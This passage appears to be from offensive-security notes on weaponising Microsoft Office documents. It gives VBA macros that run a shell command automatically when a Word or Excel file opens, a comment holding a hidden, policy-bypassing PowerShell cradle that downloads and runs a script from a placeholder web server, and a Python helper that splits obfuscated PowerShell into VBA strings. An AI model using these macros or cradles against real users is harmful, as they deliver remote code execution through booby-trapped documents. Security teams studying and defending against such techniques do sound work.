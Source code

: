 A more comprehension list of the `auto macros` supported by `Excel` can be
found in the official [Microsoft
documentation](https://docs.microsoft.com/fr-fr/office/vba/api/excel.workbook).

*Automatic macro example.*

The following `VBA` code execute the `Test` macro upon opening of the document
containing the macro in `MS Word` (with `AutoOpen`) and `MS Excel`
(with `Workbook_Open`):

```
'<OS_COMMAND> basic example to download and execute in memory a PowerShell script from a webserver: cmd /c powershell.exe -NoP -NoExit -W Hidden -Exec Bypass -c IEX (New-Object System.Net.Webclient).DownloadString('http://<IP>/<PS_SCRIPT>').

Sub Test()
   Dim code: code = "<OS_COMMAND>"
   Shell (code)
End Sub

Sub AutoOpen()
   Test
End Sub

Sub Workbook_Open()
   Test
End Sub
```

###### PowerShell code in VBA macro

The following Python script transforms a PowerShell command into a
multi-lines VBA string declaration. It is notably useful for long obfuscated PowerShell command that doesn't fit into a single line VBA string declaration.

As an example, the scripts produces the following output:

```bash
# input PowerShell example, produced by Invoke-Obfuscation: cmd.exe /c PoWeRSheLL -exeCUtI BYPASs -noEXIT -COmma  "\"[...]')"

s0 = "PoWeRSheLL -exeCUtI BYPASs -noEXIT -COmma  ""\""$(SEt-vArIabLe  'Ofs' '') \"" + [ST"
[...]
s98 = "Mspec[4,26,25]-jOin'')"""

cmdStr = "cmd.exe /c " & s0 & s1 & s2 & s3 & s4 & s5 & s6 & s7 & s8 & s9 & s10 & s11
[...]
cmdStr = cmdStr & s89 & s90 & s91 & s92 & s93 & s94 & s95 & s96 & s97 & s98
```

```python
powershell_file = r'<POWERSHELL_COMMAND_FILE>'

# Number of char to split the PowerShell command in
n = 80

with open(powershell_file, 'r') as f:
    file_content = f.read()
    print (file_content)
    substrings = [file_content[i:i+n] for i in range(0, len(file_content), n)]

    substring_index = 0
    for substring in substrings:
        if '"' in substring:
            substring = substring.replace('"', '""')
        if '\n' in substring:
            substring = substring.replace('\n', '')

```
